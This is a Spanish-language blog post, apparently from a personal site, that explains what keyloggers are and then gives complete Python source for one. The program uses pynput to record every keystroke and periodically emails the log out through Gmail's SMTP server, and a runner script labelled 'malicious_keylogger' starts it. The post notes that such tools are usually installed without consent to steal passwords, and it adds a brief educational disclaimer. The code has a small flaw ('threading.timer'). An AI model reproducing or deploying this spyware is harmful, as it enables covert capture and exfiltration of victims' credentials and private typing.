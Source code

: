 ```yaml
---
layout: single
title: "Entendiendo los keyloggers: teoría y creación de un keylogger básico en Python"
excerpt: "En este post, aprenderás acerca de los conceptos básicos de los keyloggers, así como sobre cómo crear un keylogger básico en Python. A través de la creación de una herramienta de este tipo, aprenderás sobre la captura de entrada del usuario, el manejo de flujos de datos y la transmisión de información en tiempo real. Aunque es importante mencionar que los keyloggers son considerados una herramienta peligrosa y su uso indebido puede ser ilegal y violar la privacidad de las personas. "
date: 2022-06-30
classes: wide
header:
 teaser: /assets/images/keylogger/keylogger.png
 teaser_home_page: true
categories:
  - Programación
tags:
  - seguridad
  - spyware
  - colombia
  - python
  - malware
---
```


<p align="center" >
<img src='/assets/images/keylogger/keylogger.png' width='300' height='300'/>
</p>

Un Keylogger es un pequeño programa diseñado para capturar todas las pulsaciones que son realizadas por un teclado, para guardarlas en un registro que puede verse luego en un ordenador local, o puede ser enviado con rapidez y seguridad a través de Internet a un equipo remoto. Sin embargo los keyloggers no siempre se basan en _software_, sino que tambien pueden estar basados en _hardware_, mas adelanto explico cada uno, pero en este post nos enfocaremos en el keylogger basado en software ya que capturaremos la escritura de teclas de la victima.

A pesar de ser usado mayormente para actividades ilicitas, los keyloggers tambien tienen un uso positivo en las empresas, ayudando en el control parental o el analisis interno de las mismas. En definitiva los keyloggers son tecnologias que nos permiten realizar un seguimiento y registrar cada tecla o pulsacion  tacil que se realiza en algun dispositivo electronico.

# Tipos de keylogger
Existen 2 tipos los cuales seran resumidos:

## Keylogger basado en software 
Este keylogger se trata de un programa ejecutable, que actúa como espía o virus, escrito en Python y es instalado en cualquier dispositivo electrónico con teclado para rastrear la escritura realizada con este. Normalmente, se instala sin consentimiento del usuario y realiza el registro de las pulsaciones del teclado e inclusive realiza capturas de pantalla, esto con el fin de obtener datos de acceso como por ejemplo los números de cuentas y sus contraseñas.

Posterior a esto, los datos capturados son guardados en un archivo que se le suele llamar `log.txt` y luego es enviado al atacante via correo electronico o talvez el archivo solo es guardado en el equipo local o enviado a un equipo remoto, siendo estas las tipologias de _keylogger_ mas comunes.

## Keylogger basado en hardware
Este keylogger de tipo _hardware_ suele implementarse a travez de firmware a nivel de BIOS o, alternativamente atravez de un dispositivo microelectronico conectado en linea entre en teclado de computadora y una computadora.

# Como se crea un keylogger basico?
El proposito de este post es con fines educativos, no me responsabilizo del uso que hagan con el. Con esta entrada quiero ensenar **como crear un keylogger con el lenguaje python**, este keylogger va guardar cada pulsacion de tecla y va almacenar esta informacion en un archivo de texto, Despues de x pulsaciones, el keylogger enviara un correo a una direccion especifica con el archivo adjunto.

Para que este keylogger funcione debemos hacer uso de algunas librerias o modulos de python las cuales son las siguientes: 

- smtplib: Este modulo o libreria define un objeto de sesion de cliente SMTP que se puede usar para enviar correos a cualquier maquina de internet con un demonio de escucha SMTP.
- re: Este modulo nos proporciona operaciones de conicidencia de expresiones regulares.
- subprocess: Este modulo permite invocar procesos desde python y comunicarse con ellos, es decir enviar datos a la entrada `stdin` y recibir la informacion de salida `stdout`.
- pynput: Esta biblioteca nos permite controlar y monitorear/escuchar los dispositivos de entrada como el teclado y el mouse.
- threading: Este modulo construye interfaces de hilado de alto nivel sobre el modulo de mas bajo nivel.

Ya sabiendo esto, pasamos a escribir el codigo donde usaremos tambien programacion orientada a objetos y despues sera explicar por partes el codigo.

```python
#!/usr/bin/env python
import smtplib
import threading
from pynput import keyboard

#create keylogger class
class KeyLogger:

  #definimos init variables 
  def __init__ (self, time_interval, email, password):
    self.interval = time_interval
    self.log = "[!] Keylogger has started..."
    self.email = email
    self.password = password

  # creamos el archivo log
  def append_to_log(self, string):
    self.log = self.log + string

  # creamos el keylogger
  def on_press(self, key):
    try:
      current_key = str(key.char)
    except AttributeError:
      if key == key.space:
        current_key = " "
      elif key == key.esc:
        print("[!] Exiting program...")
        return False
      else:
        current_key = " " + str(key) + " "
    
    self.append_to_log(current_key)

  # creamos la estructura trasera del mail
  def send_mail(self, email, password, message):
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

  # creamos el reporte y el envio del mail
  def report_and_sendmail(self):
    send_off = self.send_mail(self.email, self.password, "\n\n" + self.log)
    self.log = ""
    timer = threading.timer(self.interval, self.report_and_sendmail)
    timer.start()

  # start keylogger and send off mail
  def start(self):
    keyboard_listener = keyboard.Listener(on_press = self.on_press)
    with keyboard_listener:
      self.report_and_sendmail()
      keyboard_listener.join()
```
Como creamos una clase, pasamos a crear el archivo python que va ejecutar el keylogger

```python
import keylogger

#inicializamos
malicious_keylogger = keylogger.KeyLogger(10, 'test@gmail.com', '123456789')

#ejecutamos
malicious_keylogger.start()
```

Ahora pasamos a probar el keylogger
